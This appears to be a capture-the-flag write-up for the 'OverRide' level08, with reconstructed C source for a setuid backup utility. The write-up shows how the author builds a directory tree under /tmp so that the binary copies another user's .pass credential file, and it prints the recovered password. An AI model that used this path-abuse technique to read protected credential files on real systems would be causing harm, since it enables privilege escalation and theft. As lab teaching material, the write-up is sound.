 # Level08

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -z execstack -z now source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>

void log_wrapper(FILE *file, char *str, char *name)
{
    char buffer[264]; // -0x110(%rbp)

    strcpy(buffer, str);
    snprintf(&buffer[strlen(buffer)], 254 - strlen(buffer), name);
    buffer[strcspn(buffer, "\n")] = 0;
    fprintf(file, "LOG: %s\n", buffer);
}

int main(int argc, char **argv)
{
    FILE *log; // -0x88(%rbp)
    FILE *file; // -0x80(%rbp)
    int fd; // -0x78(%rbp)
    char c; // -0x71(%rbp)
    char dest[104]; // -0x70(%rbp)

    c = -1;
    fd = -1;
    if (argc != 2)
        printf("Usage: %s filename\n", *argv);

    log = fopen("./backups/.log", "w");
    if (!log)
    {
        printf("ERROR: Failed to open %s\n", "./backups/.log");
        exit(1);
    }

    log_wrapper(log, "Starting back up: ", argv[1]);

    file = fopen(argv[1], "r");
    if (!file)
    {
        printf("ERROR: Failed to open %s\n", argv[1]);
        exit(1);
    }

    strcpy(dest, "./backups/");
    strncat(dest, argv[1], 99 - strlen(dest));
    fd = open(dest, 193, 432LL);
    if (fd < 0)
    {
        printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
        exit(1);
    }

    while ((c = fgetc(file)) != -1)
        write(fd, &c, 1uLL);

    log_wrapper(log, "Finished back up ", argv[1]);
    fclose(file);
    close(fd);
    return 0;
}
```

In the source code, there isn't any obvious vulnerabilities, we simply have to utilize the utility of the program itself to get the `.pass` file. The program takes a file as an argument, reads it and writes it to a file in the `./backups/` directory. If the path in the `./backups/` directory does not exist, it will not be created and the program will exit with an error, but if the path exists, the program will write the file to it.

If we manage to create a path that contains `/level09/.pass` in the `./backups/` directory, we will be able to write the `.pass` file. Sadly, we don't have the permissions to create a directory in the `./backups/` directory in the home directory. But we can in the `/tmp/` directory! So let's create our folder:
```
level08@OverRide:~$ cd /tmp/
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
```

Now we can run the program with the path of the `.pass` file as an argument:
```
level08@OverRide:/tmp$ ~/level08 ~level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

We are now level09! Let's move on to the next level.